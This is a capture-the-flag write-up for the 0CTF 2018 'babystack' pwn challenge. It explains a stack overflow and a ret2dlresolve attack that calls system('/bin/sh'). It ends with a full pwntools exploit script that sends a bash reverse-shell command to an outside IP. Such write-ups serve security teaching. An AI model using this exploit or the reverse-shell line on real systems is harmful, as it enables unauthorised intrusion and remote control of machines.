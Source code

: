 # 0CTF 2018 Quals: Baby Stack

> Challenge link: [babystack](http://dl.0ops.net/2018/babystack.tar.gz)
>
> Category: Pwn
>
> Writeup: []()
>

Info leak is no longer required to exploit a stack overflow in 2018.

Enjoy the babystack

202.120.7.202:6666

## Protection

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

## Analysis

- ```pow.py```

It is a wrapper of babystack.
Add proof-of-work and limiting the length of input is ```0x100```; also pipe stdout and stderr to ```/dev/null```.

- ```babystack```

Just alarm and read buffer.

```c
ssize_t sub_804843B()
{
  char buf; // [esp+0h] [ebp-28h]

  return read(0, &buf, 0x40u);
}

int __cdecl main()
{
  alarm(0xAu);
  sub_804843B();
  return 0;
}
```

## Vulnerability

No canary found and we can read a lot of characters to buf.
- **Buffer overflow** in ```read(0, &buf, 0x40u)```

## Idea

- no output function => cannot do information leak
- no libc provided => guessing function offset maybe hard
- NX enabled => read shell code and jump to execute cannot work

According to the description, "info leak is no longer required", it means that we can use ret2dlresolve skill to pwn it!

Try to solve by the following steps:

1. use rop to read fake data structures and ret2main
2. use ret2dlresolve to call ```system("/bin/sh")```

Fake data structures:

- ```Elf32_Rel```

```
/* Relocation table entry without addend (in section of type SHT_REL).  */
typedef struct
{
  Elf32_Addr        r_offset;                /* Address */
  Elf32_Word        r_info;                        /* Relocation type and symbol index */
} Elf32_Rel;
```

https://code.woboq.org/userspace/glibc/elf/elf.h.html#633

- ```Elf32_Sym```

```
/* Symbol table entry.  */
typedef struct
{
  Elf32_Word        st_name;                /* Symbol name (string tbl index) */
  Elf32_Addr        st_value;                /* Symbol value */
  Elf32_Word        st_size;                /* Symbol size */
  unsigned char        st_info;                /* Symbol type and binding */
  unsigned char        st_other;                /* Symbol visibility */
  Elf32_Section        st_shndx;                /* Section index */
} Elf32_Sym;
```

https://code.woboq.org/userspace/glibc/elf/elf.h.html#518

Working flow about ```_dl_runtime_resolve```

```
     _dl_runtime_resolve(link_map, reloc_arg)
                                       +
          +-----------+                |
          | Elf32_Rel | <--------------+
          +-----------+
     +--+ | r_offset  |        +-----------+
     |    |  r_info   | +----> | Elf32_Sym |
     |    +-----------+        +-----------+      +----------+
     |      .rel.plt           |  st_name  | +--> | system\0 |
     |                         |           |      +----------+
     v                         +-----------+        .dynstr
+----+-----+                      .dynsym
| <system> |
+----------+
  .got.plt
```

- fake ```Elf32_Rel```
    - ```r_offset``` writable (after resolving symbol write the actual address of function)
    - ```r_info``` high 24 bits
        - ```(r_info >> 8) * 16``` point to fake ```Elf32_Sym``` (16 is size of ```Elf32_Sym```)
    - ```r_info``` low 8 bits
        - must be ```0x07``` (R_386_JMP_SLOT)

- fake ```Elf32_Sym```
    - ```.dynstr + st_name``` point to ```system``` string

Read the fake ```Elf32_Rel```、```Elf32_Sym``` structures and ret2main to call ```_dl_runtime_resolve```.

- use ```plt0```

```
Disassembly of section .plt:

080482f0 <read@plt-0x10>:                                             // plt0
 80482f0:       ff 35 04 a0 04 08       push   DWORD PTR ds:0x804a004 // push link_map
 80482f6:       ff 25 08 a0 04 08       jmp    DWORD PTR ds:0x804a008 // jmp _dl_runtime_resolve
```

We can calculate the ```reloc_arg``` to make ```.rel.plt + reloc_arg``` point to our fake structures and jump to ```plt0```, let it resolve symbol to ```system```.

After resolving the symbol, ```_dl_runtime_resolve``` will call the function.

## Exploitation

```python
#!/usr/bin/env python

from pwn import *
from hashlib import sha256
import time

# r = process('./babystack')
r = remote('202.120.7.202', 6666)

def verify():
    data = r.recvline()[:-1]
    for i in xrange(2 ** 32):
        if sha256(data + p32(i)).digest().startswith('\0\0\0'):
            break
    r.send(p32(i))
    log.info('POW is over')
    sleep(0.5)

def send(data, length):
    time.sleep(0.1)
    r.send(data.ljust(length))

plt0 = 0x80482f0
relplt = 0x80482b0
dynsym = 0x80481cc
dynstr = 0x804822c

main = 0x8048457
read_plt = 0x8048300

buf = 0x804a500

rop = flat(
        # _dl_runtime_resolve call and reloc_arg
        plt0, buf - relplt, # will resolve system
        0xdeadbeef, # return address
        buf + 36 # parameter "/bin/sh"
        )

data = flat(
        # Elf32_Rel
        buf, 0x7 | ((buf + 12 - dynsym) / 16) << 8, 0xdeadbeef, # 0xdeadbeef is padding
        # Elf32_Sym
        buf + 28 - dynstr, 0, 0, 0x12,
        'system\x00\x00',
        '/bin/sh\x00'
        )

verify()

# read data to buf
send('a' * 44 + flat(read_plt, main, 0, buf, 44), 0x40)
send(data, 44)

# use ret2dlresolve to call system("/bin/sh")
send('a' * 44 + rop, 0x40)

# make a reverse shell
send('bash -c "bash -i &>/dev/tcp/35.201.141.84/80 0>&1"', 0x100)

r.interactive()
```

```flag{return_to_dlresolve_for_warming_up}```

## Note

https://www.slideshare.net/AngelBoy1/re2dlresolve

https://www.youtube.com/watch?v=wsIvqd9YqTI
